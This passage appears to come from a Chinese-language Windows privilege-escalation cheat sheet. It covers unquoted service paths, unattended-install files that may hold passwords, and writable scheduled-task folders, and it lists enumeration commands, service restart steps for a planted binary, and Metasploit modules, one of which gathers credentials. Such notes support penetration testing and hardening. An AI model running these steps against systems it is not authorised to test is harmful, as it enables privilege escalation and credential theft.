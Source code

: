 也可以利用 `msf` 中的 `always_install_elevated` 模块

### [](#%E5%8F%AF%E4%BF%A1%E4%BB%BB%E6%9C%8D%E5%8A%A1%E8%B7%AF%E5%BE%84%E6%BC%8F%E6%B4%9E)可信任服务路径漏洞

#### [](#metasploit-%E4%B8%8B%E7%9A%84%E5%88%A9%E7%94%A8-1)metasploit 下的利用

-   检测目标机器是否存在漏洞

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>wmic service get name,displayname,pathname,startmode\|findstr /i "Auto" \| findstr /i /v "C:\Windows\\"\|findstr /i /v """<br>``` |

-   把要上传的程序重命名并放置在此漏洞且可写的目录下，执行如下命令：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>sc stop service_name<br>sc start service_name<br>``` |

-   也可以使用 msf 中的 `Windows Service Trusted Path Privilege Escalation` 模块进行测试

`注意：` msf 要设置 `set AutoRunScript migrate -f` 防止掉线

### [](#%E8%87%AA%E5%8A%A8%E5%AE%89%E8%A3%85%E9%85%8D%E7%BD%AE%E6%96%87%E4%BB%B6)自动安装配置文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```cmd<br>dir /b /s c:\Unattend.xml<br>dir /b /s c:\sysprep.xml<br>``` |

查看文件中知否存在 `base64` 加密的密码

msf 中集成了该漏洞的利用模块 `post/windows/gather/enum_unattend`

### [](#%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)计划任务

#### [](#%E6%9F%A5%E7%9C%8B%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)查看计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtasks /query /fo LIST /v<br>``` |

#### [](#%E6%9F%A5%E8%AF%A2%E5%8F%AF%E5%86%99%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1%E6%96%87%E4%BB%B6%E5%A4%B9)查询可写的计划任务文件夹

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>accesschk.exe -dqc "C:\Microsoft" -accepteula<br>``` |

#### [](#%E5%88%97%E5%87%BA%E6%9F%90%E4%B8%AA%E9%A9%B1%E5%8A%A8%E5%99%A8%E4%B8%8B%E6%89%80%E6%9C%89%E6%9D%83%E9%99%90%E9%85%8D%E7%BD%AE%E6%9C%89%E7%BC%BA%E9%99%B7%E7%9A%84%E6%96%87%E4%BB%B6%E5%A4%B9)列出某个驱动器下所有权限配置有缺陷的文件夹
